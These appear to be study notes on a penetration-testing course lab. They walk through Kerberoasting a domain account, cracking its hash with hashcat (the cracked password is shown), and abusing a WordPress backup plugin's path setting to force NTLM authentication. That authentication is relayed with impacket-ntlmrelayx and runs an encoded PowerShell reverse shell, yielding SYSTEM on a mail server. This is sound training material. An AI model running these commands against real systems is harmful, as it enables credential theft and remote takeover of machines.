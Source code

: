 - Perform Kerberoasting
- Abuse a WordPress Plugin function for a Relay attack

### Speak Kerberoast and Enter
We already know
- Daniela has http SPN mapped to INTERNALSRV1
- Assumption: Daniela can login to WordPress
We can attempt
- Kerberoast daniela to retrieve TGS-REP hash
- Crack TGS-REP hash 
- Login to WordPress to gain further access to INTERNALSRV1
If this fails
- Use WPScan / Gobuster to enumerate web app to find diff vector
- Switch to targeting MAILSRV1

#### Kerberoast daniela to obtain TGS-REP hash
```hlt:1,10,11
kali@kali:~/beyond$ proxychains -q impacket-GetUserSPNs -request -dc-ip 172.16.6.240 beyond.com/john
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName      Name     MemberOf  PasswordLastSet             LastLogon                   Delegation 
------------------------  -------  --------  --------------------------  --------------------------  ----------
http/internalsrv1.beyond.com  daniela            2022-09-29 04:17:20.062328  2022-10-05 03:59:48.376728             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*daniela$BEYOND.COM$beyond.com/daniela*$4c6c4600baa0ef09e40fde6130e3d770$49023c03dcf9a21ea5b943e179f843c575d8f54b1cd85ab12658364c23a46fa53b3db5f924a66b1b28143f6a357abea0cf89af42e08fc38d23b205a3e1b46aed9e181446fa7002def837df76ca5345e3277abaa86...
2e430c5a8f0235b45b66c5fe0c8b4ba16efc91586fc22c2c9c1d8d0434d4901d32665cceac1ab0cdcb89ae2c2d688307b9c5d361beba29b75827b058de5a5bba8e60af3562f935bd34feebad8e94d44c0aebc032a3661001541b4e30a20d380cac5047d2dafeb70e1ca3f9e507eb72a4c7
```

Save hash to `daniela.hash` file and crack with #hashcat and #rockyou 

```hlt:1,DANIelaRO123
kali@kali:~/beyond$ sudo hashcat -m 13100 daniela.hash /usr/share/wordlists/rockyou.txt --force
...
$krb5tgs$23$*daniela$BEYOND.COM$beyond.com/daniela*$b0750f4754ff26fe77d2288ae3cca539$0922083b88587a2e765298cc7d499b368f7c39c7f6941a4b419d8bb1405e7097891c1af0a885ee76ccd1f32e988d6c4653e5cf4ab9602004d84a6e1702d2fbd5a3379bd376de696b0e8993aeef5b1e78fb24f5d3c
...
3d3e9d5c0770cc6754c338887f11b5a85563de36196b00d5cddecf494cfc43fcbef3b73ade4c9b09c8ef405b801d205bf0b21a3bca7ad3f59b0ac7f6184ecc1d6f066016bb37552ff6dd098f934b2405b99501f2287128bff4071409cec4e9545d9fad76e6b18900b308eaac8b575f60bb:DANIelaRO123
```
- Successful crack! Store creds in `creds.txt`

Login to WordPress at `/wp-admin`
![Figure 19: Successful Login to WordPress as daniela](https://static.offsec.com/offsec-courses/PEN-200/imgs/atpr/d93f7b2070e3f708ebe62d921c371180-atp_kerb_wplogin.png)

### Abuse WordPress Plugin for Relay Attack

Review settings and plugins on site.

Users tab -> Daniela is only WordPress user
![Figure 20: Daniela is the only WordPress user](https://static.offsec.com/offsec-courses/PEN-200/imgs/atpr/b1bb6567609becf5783cb2537052386d-atp_wp_users.png)

Check _Settings_ > _General_
![Figure 21: General WordPress settings](https://static.offsec.com/offsec-courses/PEN-200/imgs/atpr/86e034fcae634b8072dea3b672105a21-atp_wp_general.png)
- Mostly default values. nothing interesting

Review installed plugins
![Figure 22: Installed WordPress Plugins](https://static.offsec.com/offsec-courses/PEN-200/imgs/atpr/e34ffe9217c342ec6be7584d838bf5f8-atp_wp_plugins.png)
- Three plugins
- Only _Backup Migration_[1](https://portal.offsec.com/courses/pen-200-44065/learning/assembling-the-pieces-48786/attacking-an-internal-web-application-48812/abuse-a-wordpress-plugin-for-a-relay-attack-48798#fn-local_id_67-1) plugin enabled

Click _Manage_ to get to plugin config page and discover _Backup directory path_
![Figure 23: Backup Migration plugin settings](https://static.offsec.com/offsec-courses/PEN-200/imgs/atpr/2095809da71e5579b15fded2ba0dc31b-atp_wp_backup.png)
- Can enter path in this field, which will be used to store backup.
	- Could abuse this to force authentication of underlying system

Two promising attack vectors
- Upload malicious WordPress plugin (webshell or reverse shell) to INTERNALSRV1
- Assuming _administrator_ accounts use same password across domain, and beccy's creds are cached on MAILSRV1, and SMB signing is disabled, try relay attack 

##### Trying Relay Attack 
###### Summary of Attack:
1. Force authentication request by bruteforcing _Backup directory path_ on Backup Migration WordPress plugin to Kali machine
2. Use impacket-ntlmrelayx to relay incoming connection to MAILSRV1
3. Assuming authentication request from INTERNALSRV1 has _Administrative_ privileges and same password as _Administrator_ on MAILSRV1, we get privileged code execution on MAILSRV1
4. Extract NTLM hash for beccy

######  Setting up impacket-ntlmrelayx
- `--no-http-server`- disable http server
- `smb2support`- enable SMB2 support
- specify external address for MAILSRV1 (no need for proxychains) as target relay
- base64 encode [powershell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) with Kali IP and port 9999
```hlt:1
kali@kali:~/beyond$ sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "powershell -enc JABjAGwAaQ..."
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

Set up a Netcat listener on port 9999 for the incoming reverse shell
```
kali@kali:~/beyond$ nc -nvlp 9999
listening on [any] 9999 ...
```

###### Modify _Backup directory path_

- Set path to _URI reference_[4](https://portal.offsec.com/courses/pen-200-44065/learning/assembling-the-pieces-48786/attacking-an-internal-web-application-48812/abuse-a-wordpress-plugin-for-a-relay-attack-48798#fn-local_id_67-4) **//192.168.119.5/test**  
	- Kali machine IP and **test** is nonexistent path
![Figure 24: Modified Backup directory path](https://static.offsec.com/offsec-courses/PEN-200/imgs/atpr/96b5cabc945cc62e19ffa4b0cbf9fedd-atp_wp_path.png)

Scroll down and click _Save_ which will force WordPress plugin to authenticate to  impacket-ntlmrelayx in contect of user running WordPress

```
...
[*] Authenticating against smb://192.168.50.242 as INTERNALSRV1/ADMINISTRATOR SUCCEED
...
[*] Service RemoteRegistry is in stopped state
...
[*] Starting service RemoteRegistry
...
[*] Executed specified command on host: 192.168.50.242
...
[*] Stopping service RemoteRegistry
```
- _INTERNALSRV1/ADMINISTRATOR_ used to perform authentication
- Successful authentication to MAILSRV1 
- Confirmed both machines use same password for admin acct
- Command on MAILSRV1 was executed

Check nc for incoming reverse shell
```hlt:2,6
connect to [192.168.119.5] from (UNKNOWN) [192.168.50.242] 50063
whoami
nt authority\system

PS C:\Windows\system32> hostname
MAILSRV1

PS C:\Windows\system32> 
```